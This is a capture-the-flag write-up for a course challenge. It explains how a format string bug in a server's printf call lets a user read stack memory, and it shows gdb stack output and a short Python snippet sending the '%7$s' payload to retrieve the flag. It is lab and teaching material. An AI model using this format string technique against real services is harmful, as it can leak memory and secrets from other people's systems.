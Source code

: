 # Challenge `Simple Local Read` writeup

- Vulnerability:
  - _Endpoint has a **format string** vulnerability_
- Where:
  - _`printf` endpoint_
- Impact:
  - _Allows to **read the stack values** without having the authority to by using the (vulnerable) printf function in the server's code_

## Steps to reproduce

First we need to open a session in the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22190`. After the session is established we can now start plotting what to do.

By analysing the source code provided, we can see that there is a buffer being used to store the input of the user. The buffer has a size of 128, and afterwards, in the function `vuln`, is printed. We can see that the `printf` function is being used to print the buffer, and it has a format string vulnerability. 

This means that we can use the `%08x.` character to print the stack values. The value we need is possibly already in the stack. To check it we used the gdb debugger with the corresponding **binary** file.
By disassembling the `vuln` function, we decided to use the memory address of the printf to make a breakpoint. This way, we can see the stack values when the breakpoint is reached. We obtained the following stack:

```bash
[------------------------------------stack-------------------------------------]
0000| 0xffffce80 --> 0x804a060 --> 0xa7825 ('\n')
0004| 0xffffce84 --> 0xf7fdb8d0 (pop    edx)
0008| 0xffffce88 --> 0xffffcea8 --> 0xffffceb8 --> 0x0 
0012| 0xffffce8c --> 0x80485b8 (<vuln+11>:	mov    DWORD PTR [ebp-0xc],eax)
0016| 0xffffce90 --> 0xf7f9dff4 --> 0x21cd8c 
0020| 0xffffce94 --> 0x8048610 (<__libc_csu_init>:	push   ebp)
0024| 0xffffce98 --> 0xf7ffcb80 --> 0x0 
0028| 0xffffce9c --> 0x804b1a0 ("STT{The_correct_flag_is_on_the_server}")           # its here (seventh place)
[------------------------------------------------------------------------------]
```

Looking at the stack the flag is in the seventh place, so we can use the `%7$s` to obtain it. The request we used and its corresponding payload was:

```python
msg= (b"%7$s")
r.sendline(msg)
print(f"Flag: {r.recvall().decode()}")
r.close()
```

Now, we can see that the server returned the `flag`. This means that we have successfully exploited the vulnerability and achieved our objective.

## Script

The script used can be found [here](simple_local_read_poc.py)
